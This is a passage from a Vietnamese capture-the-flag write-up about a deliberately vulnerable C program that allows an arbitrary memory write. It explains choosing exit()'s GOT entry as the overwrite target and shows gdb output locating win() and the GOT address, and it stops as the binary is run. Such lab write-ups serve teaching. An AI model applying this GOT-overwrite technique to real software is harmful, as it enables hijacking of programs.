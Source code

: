 Xem source code trước đã:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define FLAG_BUFFER 128

void win() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAG_BUFFER,f);
  puts(buf);
  fflush(stdout);
}


int *pointer;

int main(int argc, char *argv[])
{
  
   puts("You can just overwrite an address, what can you do?\n");
   puts("Input address\n");
   scanf("%d",&pointer);
   puts("Input value?\n");
   scanf("%d",pointer);
   puts("The following line should print the flag\n");
   exit(0);
}
```
Không quá khó để thấy dụng ý của hàm **main**: yêu cầu ta cung cấp một **địa chỉ** và **giá trị** để ghi đè ở địa chỉ đó (biến pointer). Hmm... chỉ cần ghi đè một hàm nào đó trong chương trình bằng địa chỉ của **win()** là được rồi!
Ta có 3 hàm **puts()**, **scanf()** và **exit()** để overwrite nhưng ở đây ta chỉ có thể ghi đè **exit()**.
#### Tại sao lại là exit()?
Bước dynamic linking được áp dụng với từng hàm trong lần đầu tiên ta gọi hàm đó, hàm được link sẽ ghi vào bảng PLT, đến lần gọi thứ 2 trở đi chương trình không cần trỏ qua GOT để lấy offset của hàm nữa.
Do chỉ sau khi gọi **scanf()** và **puts()** địa chỉ của biến pointer mới được set nên ta không thể overwrite **scanf()** và **puts()** được nữa nên chỉ còn hàm **exit()** là chưa được gọi thôi.
#### Lấy địa chỉ
```
$ gdb vuln
(gdb) br main
Breakpoint 1 at 0x804866e
(gdb) x win
0x80485c6 <win>:	0x53e58955
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048460 <+0>:	jmp    *0x804a01c
   0x08048466 <+6>:	push   $0x20
   0x0804846b <+11>:	jmp    0x8048410
End of assembler dump.
```
Địa chỉ của win():  0x080485c6 -> 134514118
Địa chỉ của exit() trong PLT/GOT: 0x804a01c -> 134520860
#### Overwrite
```
./vuln
You can just overwrite an address, what can you do?

```